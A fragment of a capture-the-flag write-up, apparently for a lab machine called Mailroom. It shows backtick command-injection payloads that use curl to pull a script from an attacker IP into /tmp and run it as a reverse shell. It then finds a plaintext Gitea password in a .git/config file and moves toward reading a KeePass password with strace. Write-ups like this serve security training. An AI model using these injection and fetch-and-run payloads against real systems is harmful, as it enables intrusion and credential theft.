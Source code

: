 - `test `curl 10.10.14.56:88` #`

### Rev Shell

- `test `curl 10.10.14.56:88/run.sh -o /tmp/run.sh` #`
- `test `chmod +x /tmp/run.sh` #`
- `test `/tmp/run.sh` #`

uid=33(www-data) gid=33(www-data) groups=33(www-data)

We are in a docker container. 

## Lateral Movement - matthew

We know, the staffroom is in gitea, so there is a repo in this folder

- `cd /var/www/staffroom/.git`
- `cat config`

```
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://matthew:HueLover83%23@gitea:3000/matthew/staffroom.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
[user]
        email = matthew@mailroom.htb
```

URL decode → 

PW: HueLover83#

→ user.txt

# Priv Esc

Check processes

- ps -aux

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
matthew    87118  0.3  0.2  19192  9780 ?        Ss   21:16   0:00 /lib/systemd/systemd --user
matthew    87135  0.1  0.1   8284  5248 pts/0    S    21:16   0:00 bash
```

So matthew running keepass and open the file /home/matthew/personal.kdbx

## Read password with `strace` from PID
